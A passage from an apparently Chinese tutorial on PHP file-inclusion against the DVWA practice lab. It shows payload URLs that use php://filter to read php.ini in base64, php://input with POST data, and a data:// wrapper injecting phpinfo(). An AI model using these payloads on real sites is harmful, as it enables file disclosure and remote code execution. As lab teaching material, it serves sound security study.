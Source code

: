 可以设定一个或多个过滤器名称，以管道符（）分隔。</span></section></td><td valign="top" style="margin: 0px;padding: 5px;border: 1px solid rgb(204, 204, 204);text-decoration: none;font-style: inherit;font-variant: inherit;font-weight: inherit;font-stretch: inherit;font-size: inherit;line-height: inherit;font-optical-sizing: inherit;font-size-adjust: inherit;font-kerning: inherit;font-feature-settings: inherit;font-variation-settings: inherit;vertical-align: baseline;font-family: 微软雅黑, &#34;Microsoft YaHei&#34;, &#34;WenQuanYi Micro Hei&#34;, PingFangSC;outline: none;box-sizing: border-box;text-align: left;word-break: break-word;white-space: pre-wrap;width: 173px;"><section><span leaf="">可选</span></section></td></tr><tr style="margin: 0px;padding: 0px;border: 0px;text-decoration: none;font-style: inherit;font-variant: inherit;font-weight: inherit;font-stretch: inherit;font-size: inherit;line-height: inherit;font-optical-sizing: inherit;font-size-adjust: inherit;font-kerning: inherit;font-feature-settings: inherit;font-variation-settings: inherit;vertical-align: baseline;font-family: 微软雅黑, &#34;Microsoft YaHei&#34;, &#34;WenQuanYi Micro Hei&#34;, PingFangSC;outline: none;box-sizing: border-box;"><td valign="top" style="margin: 0px;padding: 5px;border: 1px solid rgb(204, 204, 204);text-decoration: none;font-style: inherit;font-variant: inherit;font-weight: inherit;font-stretch: inherit;font-size: inherit;line-height: inherit;font-optical-sizing: inherit;font-size-adjust: inherit;font-kerning: inherit;font-feature-settings: inherit;font-variation-settings: inherit;vertical-align: baseline;font-family: 微软雅黑, &#34;Microsoft YaHei&#34;, &#34;WenQuanYi Micro Hei&#34;, PingFangSC;outline: none;box-sizing: border-box;text-align: left;word-break: break-word;white-space: pre-wrap;width: 507px;"><section><span leaf="">&lt;；两个链的筛选列表&gt; 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。</span></section></td><td valign="top" style="margin: 0px;padding: 5px;border: 1px solid rgb(204, 204, 204);text-decoration: none;font-style: inherit;font-variant: inherit;font-weight: inherit;font-stretch: inherit;font-size: inherit;line-height: inherit;font-optical-sizing: inherit;font-size-adjust: inherit;font-kerning: inherit;font-feature-settings: inherit;font-variation-settings: inherit;vertical-align: baseline;font-family: 微软雅黑, &#34;Microsoft YaHei&#34;, &#34;WenQuanYi Micro Hei&#34;, PingFangSC;outline: none;box-sizing: border-box;text-align: left;word-break: break-word;white-space: pre-wrap;width: 173px;"><section><span leaf=""><br/></span></section></td></tr></tbody></table>  
1. base64编码读文件：http://127.0.0.1/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=D:/phpstudy_pro/WWW/dvwa/php.ini  
  
1. ![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicM2adylDHQSE9Wvlt8r17ZC6ribo4sFRkGYdRmfrzWqibichSf1WAv8AVVv5awsTWajI7XwI8p17B3nQ/640?wx_fmt=png&from=appmsg "")  
  
  
### 3. php://input  
1. 作用：可以访问请求的原始数据的只读流  
  
1. 使用方法：php://input + [POST DATA]执行php代码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicM2adylDHQSE9Wvlt8r17ZCdelmUXiak9SsK4jWJWEibuV0eZwhg34hklxtHBdRdYrMd9Cw7n2Sgykw/640?wx_fmt=png&from=appmsg "")  
  
  
### 4. data://  
1. 作用：可以用来执行PHP代码。  
  
1. 使用方法：  
  
1. data://text/plain,  
  
1. data://text/plain;base64  
  
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=data://text/plain,%3C?php%20phpinfo();?%3E  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicM2adylDHQSE9Wvlt8r17ZCPickf45PLZjhRJl98Q6cqJrKcWcUcP8S68TglDpLL8ytjFkSUt0jY8A/640?wx_fmt=png&from=appmsg "")  
  